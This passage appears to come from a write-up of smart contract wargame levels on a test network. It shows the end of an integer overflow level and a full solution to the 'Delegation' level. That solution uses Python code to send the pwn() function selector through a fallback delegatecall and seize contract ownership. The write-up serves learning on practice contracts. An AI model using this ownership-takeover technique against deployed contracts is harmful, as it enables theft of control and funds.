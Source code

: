 2. Check that we have actually caused an overflow by checking if our balance is above 20.

```python
amount_assertion = token.balanceOf(acc.address) > 20
print(f'Does address {acc.address} have more than 20 tokens?: {amount_assertion}')
```


### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x50dacc40fa0b3e919a98709ae45ac9efcb9c6d4bb2ec5248176b0aefa158c58a


***

## Delegation

### Objectives

The goal of this level is for you to claim ownership of the instance you are given.

### Solution

The contract Delegate defines the function `pwn()` which easily allows you to take control of the contract. However, to take control of the Delegation contract, we must call this `pwn()` function through a low level delegate call where we pass the `pwn()` function encoded through the data sent in a transaction that will trigger the `fallback()` function of the Delegation contract.

The ownership can be taken by performing a transfer of 0 wei (or low level `call.data`) to the Delegation contract with `0xdd365b8b` in the message data. These are the first 4 bytes of the SHA-3 hash for the text `'pwn()'`.

### How I did it

1. Obtain the SHA-3 hash for the text `'pwn()'` using `web3.sha3()` from web3.py and extract the first 4 bytes of the hash.

```python
pwn_bytes = web3.sha3(text='pwn()').hex()[0:10]
```

2. Perform a simple transfer with a value of 0 but including the bytes in the tx data.

```python
acc.transfer(to=delegation.address, amount=0, data=pwn_bytes)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xe258aaa31a241c776693da995e11fc3fa0c9777b7e88cc6820767e3f6a914e91

3. Check whether we are owner or not

```python
owner_assertion = delegation.owner() == acc.address
print(f'The owner of the contract is {acc.address}, therefore the assertion is {owner_assertion}')
```
